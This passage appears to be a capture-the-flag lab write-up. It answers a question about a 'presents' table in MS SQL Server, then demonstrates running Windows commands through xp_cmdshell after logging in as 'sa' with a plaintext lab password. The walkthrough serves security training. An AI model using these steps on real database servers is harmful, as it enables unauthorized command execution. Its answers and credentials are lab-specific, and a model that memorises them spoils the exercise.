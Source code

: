 **Check the table `presents`. What is the quantity available for the present “Power Bank”?**

- **_Ans:- 25000_**

```
3> SELECT * FROM presents;
4> go
 id          name                                                                             quantity
 ----------- -------------------------------------------------------------------------------- -----------
         100 Blanket                                                                                  500
         101 Laptop                                                                                  1000
         102 Cooler                                                                                   250
         103 BT Speaker                                                                              1000
         104 THM Subscription                                                                      100000
         105 Alarm Clock                                                                              500
         106 Cookies                                                                                10000
         107 THM T-Shirt                                                                           100000
         108 Power Bank                                                                             25000
         109 USB Hub                                                                                15000

(10 rows affected)
1>

```

**You have done fantastic work! You have helped McDatabaseAdmin retrieve the schedule! Now, let’s see if we can run MS Windows commands while interacting with the database. Some MS SQL Servers have `xp_cmdshell `enabled. If this is the case, we might have access to something similar to a command prompt.**

**The command syntax is `xp_cmdshell 'COMMAND'`;. Let’s try a simple command, whoami, which shows the user running the commands. In the terminal output below, after connecting to MS SQL Server, we tried xp_cmdshell 'whoami';, and we can see that the user is nt service\mssqlserver. This means that any command we pass to xp_cmdshell will run as nt service\mssqlserver.**

```
pentester@TryHackMe$ sqsh -S 10.10.54.175 -U sa -P "t7uLKzddQzVjVFJp"
1> xp_cmdshell 'whoami';
2> go

	output

[...]

	nt service\mssqlserver

	NULL

(2 rows affected, return status = 0)

```
